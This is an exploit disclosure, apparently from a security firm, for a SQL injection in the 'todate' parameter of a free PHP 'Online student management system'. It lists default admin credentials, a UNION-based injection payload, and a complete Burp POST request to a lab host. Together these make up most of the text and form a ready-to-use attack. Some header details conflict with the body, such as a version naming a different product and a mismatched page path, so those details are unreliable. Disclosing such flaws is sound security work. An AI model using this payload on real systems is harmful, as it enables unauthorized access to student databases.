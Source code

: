 # Online student management system  - Inmates/view_inmate 'todate' SQL inject(SQLI)


#### Exploit Title: Online student management system  - Inmates/view_inmate 'todate' SQL inject(SQLI)
#### Exploit Author: webraybtl@webray.com.cn inc
#### Vendor Homepage: https://www.sourcecodester.com/php/16137/online-student-management-system-php-free-download.html
#### Software Link:https://www.sourcecodester.com/download-code?nid=16137&title=Online+student+management+system+in+php+free+download
#### Version: Badminton Center Management System
#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description
The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Online student management system does not filter the content correctly at the "Inmates/view_inmate" todate parameter, resulting in the generation of SQL injection.

#### Payload used:

`fromdate=2023-01-01&todate=1'and 1=2 union select '1','2',database(),version(),'5','6','7'-- &submit=`

#### Proof of Concept

1. Login the CMS. 
   Admin Default Access:

   Username : mayurik
   Password : rootadmin

2. Open Page http://192.168.67.10/between-dates-reports.php

   ![image-20231218162942733](img/Online student management system(SQLI)/image-20231218162942733.png)

   

3. Put SQL payload   in the BURP;

   ![image-20231218163013713](img/Online student management system(SQLI)/image-20231218163013713.png)

   ```
   POST /between-date-reprtsdetails.php HTTP/1.1
   Host: 192.168.67.10
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
   Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
   Accept-Encoding: gzip, deflate
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 101
   Origin: http://192.168.67.10
   Connection: close
   Referer: http://192.168.67.10/between-dates-reports.php
   Cookie: PHPSESSID=41k6lb8lgvu5aiq908id5u1qgh
   Upgrade-Insecure-Requests: 1
   
   fromdate=2023-01-01&todate=1'and 1=2 union select '1','2',database(),version(),'5','6','7'-- &submit=
   ```

   


4. Viewing the Response;

   

![image-20231218163108092](img/Online student management system(SQLI)/image-20231218163108092.png)

![image-20231218163057715](img/Online student management system(SQLI)/image-20231218163057715.png)



